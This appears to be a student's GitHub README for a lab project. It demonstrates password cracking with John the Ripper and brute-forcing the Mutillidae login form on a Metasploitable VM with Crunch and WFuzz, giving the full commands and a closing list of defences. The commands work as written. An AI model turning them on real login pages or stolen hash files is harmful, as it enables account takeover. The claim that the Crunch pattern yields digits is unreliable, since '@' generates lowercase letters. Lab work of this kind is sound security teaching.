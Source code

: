 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

---

## 🎥 Video Demonstration

**YouTube**: [Brute Force & Dictionary Attack](https://youtu.be/veVo-LV4YkE)

---

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

```bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

```

``` bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

```

``` bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

```

``` bash
Copy
Edit
john --show hashes1a.txt

```

✅ John successfully cracked the hash for password1234.

### 🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
``` bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch

``` 
### 🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

### 🔐 Step-by-Step
### 1. Generate a password list with Crunch
``` bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

```

We inserted the real password adminpass near the top for demo purposes

### 2. Run WFuzz attack
```bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst
```
Correct password adminpass was successfully identified

### 3. Verify Login
Visited the login URL in a browser

``` 
Used:

Username: admin

Password: adminpass

```

### ✅ Login was successful

### 🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)
